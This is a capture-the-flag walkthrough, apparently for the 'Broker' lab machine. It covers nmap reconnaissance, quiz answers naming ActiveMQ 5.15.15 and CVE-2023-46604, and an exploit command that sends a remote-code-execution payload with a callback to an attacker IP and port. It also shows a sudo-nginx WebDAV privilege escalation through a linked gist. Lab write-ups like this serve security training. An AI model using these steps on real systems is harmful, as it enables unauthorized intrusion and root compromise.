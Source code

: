 # Broker

IP: 10.129.230.87

```
└─$ nmap -sC -sV 10.129.230.87 -p-
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-09 10:35 EDT
Nmap scan report for 10.129.230.87
Host is up (0.017s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.4.39.v20210325
|_http-title: Error 401 Unauthorized
|_http-server-header: Jetty(9.4.39.v20210325)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
38273/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Site doesn't have a title.
61616/tcp open  apachemq   ActiveMQ OpenWire transport 5.15.15
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

Question: Which open TCP port is running the ActiveMQ service?

Answer: 61616

Question: What is the version of the ActiveMQ service running on the box?

Answer: 5.15.15

Question: What is the 2023 CVE-ID for a remote code execution vulnerability in the ActiveMQ version running on Broker?

Answer: CVE-2023-46604

Useful URL: https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell

Useful URL:  https://digital.nhs.uk/cyber-and-data-security/about-us/cyber-security-glossary#proof-of-concept---poc

└─$ python3 exploit.py -i 10.129.230.87 -p 61616 -si 10.10.16.58 -sp 8080

$ ls /home 

Question: What user is the ActiveMQ service running as on Broker?

Answer: activemq

Question: What is the full path of the binary that the activemq user can run as any other user with sudo?

Answer: /usr/sbin/nginx

Explanation:
```
Apache ActiveMQ$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

Useful URL: evkl1d/CVE-2023-46604

Question: Which nginx directive can be used to define allowed WebDAV methods?

Answer: dav_methods

Question: Which HTTP method is used to write files via the WebDAV protocol?

Answer: PUT

Question: Which flag is used to set a custom nginx configuration by specifying a file?

Answer: -c


# Privilege Escalation

URL: https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406#file-nginx_privesc_sudo-md

create exploit.sh on local machine and then transfer via python server to victim machine.

```
https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406#file-nginx_privesc_sudo-md
```
